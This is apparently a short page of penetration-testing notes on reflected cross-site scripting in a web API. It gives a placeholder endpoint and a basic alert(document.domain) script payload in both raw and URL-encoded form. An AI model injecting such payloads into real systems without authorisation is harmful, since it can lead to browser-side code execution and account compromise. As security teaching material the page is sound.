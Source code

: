 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities.

#### Interact with the API with a random value

`http://SERVER_IP:PORT/api/download/randomvalue`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Since the value is reflected in the response, try to enter a payload.

#### XSS payload

```javascript
<script>alert(document.domain)</script>
```

Or the encoded version

```javascript
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```
